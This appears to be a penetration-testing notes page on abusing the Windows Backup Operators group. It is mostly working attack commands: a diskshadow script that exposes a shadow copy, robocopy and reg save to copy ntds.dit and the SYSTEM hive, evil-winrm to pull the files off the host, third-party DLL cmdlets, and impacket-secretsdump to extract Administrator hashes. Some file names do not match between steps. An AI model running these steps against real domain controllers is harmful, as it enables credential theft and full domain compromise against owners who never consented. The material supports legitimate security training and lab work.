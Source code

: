 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Backup Operators

## Information

Backup Operators can **back up and restore all files on a computer**, including OS files, regardless of the permissions that protect those files. Because members of this group can replace files on DCs, they're considered **service administrators**.

> Well known SID/RID: `S-1-5-32-551`.

<table><thead><tr><th width="205">Privilege</th><th>Description</th></tr></thead><tbody><tr><td><a href="https://learn.microsoft.com/en-us/windows/device-security/security-policy-settings/back-up-files-and-directories">SeBackupPrivilege</a></td><td>Allows us to create backups of any files, whilst not restoring their permissions, which equals to <strong>arbitrary read access</strong>.</td></tr><tr><td><a href="https://learn.microsoft.com/en-us/windows/device-security/security-policy-settings/restore-files-and-directories">SeRestorePrivilege</a></td><td>Allows us to <strong>overwrite legitimate executable files</strong> with versions that include malicious software used for <strong>privilege escalation</strong>.</td></tr></tbody></table>

## Exploitation

{% tabs %}
{% tab title="nxc" %}
If the controlled user has the `SeBackupPrivilege`, it can dump `SAM`, `SYSTEM`, `SECURITY` and therefore the `NTDS.dit` on the target system. No admin privs needed!

```bash
nxc smb <target-ip> -u <user> -p <pass> -M backup_operator
```
{% endtab %}

{% tab title="Diskshadow" %}
Create a [**diskshadow**](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) script from the attack host to expose the `c:` drive:

```bash
# Create a diskshadow script
nano diskshadow_script
# List its content
cat diskshadow_script
set context persistent nowriters
add volume c: alias random
create
expose %random% z:
# Convert file into a Windows-compatible format
$ sudo unix2dos diskshadow_script
unix2dos: converting file diskshadow_script to DOS format...
```

Transfer the script to the target host and execute the following steps. In the example below, `evil-winrm` is used to transfer the files between the attack and the target host, via its `upload` and `download` methods:

```powershell
# Move within a writeable directory
cd c:\windows\temp
# Upload the diskshadow script
upload diskshadow_script
# Expose the shadow copy
diskshadow /s diskshadow_script
# Copy the ntds.dit database
robocopy /b z:\windows\ntds . ntds.dit
# Copy the system.hive file
reg save hklm\system c:\windows\temp\system.hive
# Download both files
download ntds.dit
download system.hive
```

Dump the `ntds.dit` from the attack host:

{% code overflow="wrap" %}
```bash
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL | grep Administrator
```
{% endcode %}

For an example of the above method check [here](../../../boxes/hard/blackfield.md#exfiltrating-victory).
{% endtab %}

{% tab title="DLLs" %}
Download the `SeBackupPrivilegeUtils.dll` and `SeBackupPrivilegeCmdLets.dll` from [here](https://github.com/giuliano108/SeBackupPrivilege) on the attack host and transfer them to the target along with the diskshadow script found on the previous tab (on the example below `evil-winrm` is used):

```powershell
# Move to a writeable directory
cd C:\Temp
# Upload files
upload diskshadow_script
upload SeBackupPrivilegeUtils.dll
upload SeBackupPrivilegeCmdLets.dll
# Import DLLs into memory
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
# Expose the shadow copy
diskshadow /s raj.dsh
```

Unlike [Method 1](backup-operators.md#method-1), this time we will be using the `Copy-FileSebackupPrivilege` cmdlet (part of the DLL files) to copy the `ntds.dit` file from the `z:` volume to the `Temp` directory:

```powershell
# Copy ntds.dit to Temp
Copy-FileSebackupPrivilege z:\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
# Copy system.hive
reg save hklm\system c:\Temp\system
# Exfiltrate files
download ntds.dit
download system
```

Dump the `ntds.dit` from the attack host:

{% code overflow="wrap" %}
```bash
impacket-secretsdump -ntds ntds.dit -system system.hive LOCAL | grep Administrator
```
{% endcode %}
{% endtab %}
{% endtabs %}
